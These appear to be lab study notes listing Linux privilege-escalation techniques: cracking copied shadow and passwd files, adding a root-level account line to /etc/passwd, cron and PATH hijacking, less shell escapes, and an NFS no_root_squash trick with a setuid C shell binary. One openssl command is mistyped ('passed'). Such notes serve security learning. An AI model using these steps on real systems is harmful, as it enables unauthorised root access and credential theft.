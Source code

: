 #### Crack account
- Grab shadow and passwd
- use unshadow to create a crackable file `unshadow passwd.txt shadow.txt > passwords.txt`
- Use john the ripper to crack the passwords

#### Create new account
- Use openssl to hash a new password `openssl passed -1 -salt THM password1`
- Add this entry to /etc/passwd (including root access) `<username>:<hash>:0:0:root:/root:/bin/bash`
- then switch to that user `su <username>`

### Capabilities
Check for files with capabilities set
```
getcap -r / 2>/dev/null
```
Then look up against https://gtfobins.github.io/#+capabilities

### Cron Jobs
Check for system-wide cron jobs at /etc/crontab
```
cat /etc/crontab
```
Check if any run as root

### Less
if you can get into as root (e.g. through SUID) less then run
```
!bash
```

### PATH
Check if you have write permissions to a folder in PATH that you can exploit
```
echo $PATH
```
Check where's writable
```
find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
```
You can then add this writable folder to the path (if it's not already in there) and then use a SUID binary to execute your code instead

### NFS
Check /etc/exports for shares that have no_root_squash set
This allows us to share a folder with a SUID binary set, and execute it on the server
example binary
```
int main()
{
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```
The compile with gcc and `chmod +s <file>` the binary
On the attacking machine check the mounts on the target
```
showmount -e <target_ip>
mount -o rw <target_ip>:/<share> <local_folder>
```
